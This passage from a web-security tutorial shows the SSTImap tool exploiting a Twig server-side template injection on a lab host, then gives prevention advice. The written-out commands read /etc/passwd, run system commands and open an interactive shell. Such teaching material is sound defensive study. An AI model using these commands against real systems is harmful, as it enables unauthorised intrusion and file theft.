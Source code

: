 As we can see, SSTImap confirms the SSTI vulnerability and successfully identifies the `Twig` template engine. It also provides capabilities we can use during exploitation. For instance, we can download a remote file to our local machine using the `-D` flag:

```shell-session
[!bash!]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

Additionally, we can execute a system command using the `-S` flag:

```shell-session
[!bash!]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we can use `--os-shell` to obtain an interactive shell:

```shell-session
[!bash!]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```

---

## Prevention

To prevent SSTI vulnerabilities, we must ensure that user input is never fed into the call to the template engine's rendering function in the template parameter. This can be achieved by carefully going through the different code paths and ensuring that user input is never added to a template before a call to the rendering function.

Suppose a web application intends to have users modify existing templates or upload new ones for business reasons. In that case, it is crucial to implement proper hardening measures to prevent the takeover of the web server. This process can include hardening the template engine by removing potentially dangerous functions that can be used to achieve remote code execution from the execution environment. Removing dangerous functions prevents attackers from using these functions in their payloads. However, this technique is prone to bypasses. A better approach would be to separate the execution environment in which the template engine runs entirely from the web server, for instance, by setting up a separate execution environment such as a Docker container.

# Bypassing
https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9

https://medium.com/stolabs/ssti-vulnerability-server-side-template-injection-execution-and-exploration-286923651032
